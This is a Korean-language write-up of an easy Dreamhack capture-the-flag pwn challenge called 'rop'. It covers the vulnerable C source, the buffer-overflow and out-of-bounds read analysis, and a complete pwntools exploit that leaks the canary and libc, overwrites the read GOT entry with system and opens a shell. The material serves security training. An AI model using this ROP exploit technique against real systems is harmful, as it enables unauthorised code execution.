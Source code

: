 # rop - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: rop.c, rop(ELF)
- tools: gdb(pwndbg), checksec, ROPgadget
## Brief Description
Exploit Tech: Return Oriented Programming에서 실습하는 문제입니다.
## Initial Analysis
### Environment
``` sh
checksec --file=rop
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
### Code
``` c
// Name: rop.c
// Compile: gcc -o rop rop.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);

  return 0;
}
```
Return to Libc 문제와는 다르게 이번 문제는 get_shell 함수를 제공하지 않는다.  
## Vulnerability
### BOF(Buffer Overflow)
``` c
// buf size: 0x30
read(0, buf, 0x100);
```
`buf`의 크기는 0x30인 반면, `read`로 읽어오는 `buf`의 길이는 0x100로 크게 벗어나 BOF 취약점이 발생한다. 해당 취약점은 총 2번 발생한다. 
### OOB(Out Of Bounds)
``` c
printf("Buf: %s\n", buf);
```
`NULL-byte`가 나오기 전까지 계속 일오기 때문에, `buf`의 크기를 넘어서는 상위 데이터를 읽어올 수 있는 OOB 취약점이 발생한다.  
## Exploit
### Strategy
get_shell 함수를 제공하지 않기 때문에 직접 `system` 함수를 호출해야 한다. PIE 비활성화와 함께 BOF, OOB 취약점이 있는 환경 덕분에 GOT 및 canary를 leak하고 덮어쓸 수 있다. 다음은 ROP 공격에 필요한 요소들을 정리한 것이다.  
| 정보 | 역할 | 확보 방법 |
| --- | --- | --- |
| system_PLT | system 호출 | pwndbg> plt |
| "/bin/sh" | system 함수 인자 | ROP 삽입 |
| pop_rdi | system 인자를 레지스터에 전달 | ROPgadget --binary ./rtl --re "pop rdi" |
| pop_rsi | read 인자를 레지스터에 전달 | ROPgadget --binary ./rtl --re "pop rsi" |
| pop_rdx | read 인자를 레지스터에 전달 | ROPgadget --binary ./rtl --re "pop rdx" |
| ret | 스택 정렬 | ROPgadget --binary=./rtl \| grep ": ret" |
| libc base | system addr 확인 | libc leak |

``` sh
$ readelf -s libc.so.6 | grep " read@"
   289: 0000000000114980   157 FUNC    GLOBAL DEFAULT   15 read@@GLIBC_2.2.5
$ readelf -s libc.so.6 | grep " system@"
  1481: 0000000000050d60    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
```
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| canary | -0x8 |
| dummy | -0x10 |
| buf | -0x40 |
### payload
``` python
#!/usr/bin/env python3
# Name: rop.py
from pwn import *

def slog(name, addr): return success(': '.join([name, hex(addr)]))

p = process('./rop')
# p = process('./rop', env= {"LD_PRELOAD" : "./libc.so.6"})
# 우분투를 최근에 설치한 경우, 문제에서 제공하는 libc 파일이 우분투 환경에서 사용하는 것과 미세하게 다를 수 있다. 이 경우 7번 라인을 주석처리하고 8번 라인을 해제하여 사용하는 libc 파일을 강제로 이 문제에서 제공하는 것으로 지정할 수 있다.
e = ELF('./rop')
libc = ELF('./libc.so.6')

# [1] Leak canary
buf = b'A'*0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Exploit
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
pop_rdi = 0x0000000000400853
pop_rsi_r15 = 0x0000000000400851
ret = 0x0000000000400854

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8

# write(1, read_got, ...) 
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)

# read(0, read_got, ...) 
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

# read("/bin/sh") == system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(read_got + 0x8) # "/bin/sh" addr
payload += p64(ret)
payload += p64(read_plt)

p.sendafter(b'Buf: ', payload)
read = u64(p.recvn(6) + b'\x00'*2)
lb = read - libc.symbols['read'] # libc base
system = lb + libc.symbols['system']
slog('read', read)
slog('libc_base', lb)
slog('system', system)

p.send(p64(system) + b'/bin/sh\x00') # ROP read

p.interactive()
```